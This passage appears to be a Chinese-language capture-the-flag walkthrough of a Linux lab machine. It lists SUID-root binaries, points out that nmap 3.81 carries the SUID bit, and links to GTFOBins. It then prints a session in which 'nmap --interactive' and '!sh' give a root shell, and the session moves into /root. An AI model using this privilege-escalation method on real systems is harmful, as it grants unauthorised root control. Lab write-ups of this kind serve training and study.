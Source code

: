     15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
    15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
    15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
    15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
    15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
    36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
    36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
    36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
    36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
    36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
    36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
    34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
    38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
    38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
    395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
    395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
    38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
    ```

    + nmap可用来提权，版本为3.81

+ [查看nmap提权方式](https://gtfobins.github.io/gtfobins/nmap/)

    ![alt text](/style/image/image-547.png)

    ```
    robot@linux:~$ nmap --interactive
    nmap --interactive

    Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    !sh
    # whoami
    whoami
    root
    # pwd
    pwd
    /home/robot
    # cd /
    cd /
    # dir
    dir
    bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
    boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
    # cd root
    cd root